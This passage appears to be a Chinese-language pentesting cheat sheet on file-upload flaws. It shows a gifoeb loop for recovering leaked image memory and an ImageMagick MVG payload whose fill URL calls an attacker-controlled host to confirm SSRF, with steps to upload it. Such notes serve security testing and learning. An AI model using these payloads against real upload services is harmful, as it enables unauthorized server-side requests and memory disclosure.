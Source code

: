 ```
6. 保存并恢复像素文件。

for p in previews/*; do
./gifoeb recover $p | strings;
完成

7. 更多详情请访问 https://github.com/neex/gifoeb

########################### 另一种方法 #############################

参考：https://www.exploit-db.com/exploits/39767 , https://hackerone.com/reports/135072

1. 找到上传功能。
2. 创建一个扩展名为 .mvg 的文件，并在其中添加以下代码。

push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context

这里的 example.com 可以是您的 burp 协作 URL，也可以是您可以接收 HTTP 请求的网站。
3. 现在使用以下命令：

convert ssrf.mvg out.png

4. 上传图片，看看是否收到了 HTTP 请求。

在这里找到现成的和更多的有效载荷：https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik
```



# Mindmap

![File_Upload_MindMap](https://user-images.githubusercontent.com/33719912/193826710-b6d71979-04f4-42a6-a9c6-7d14784de9d4.png)




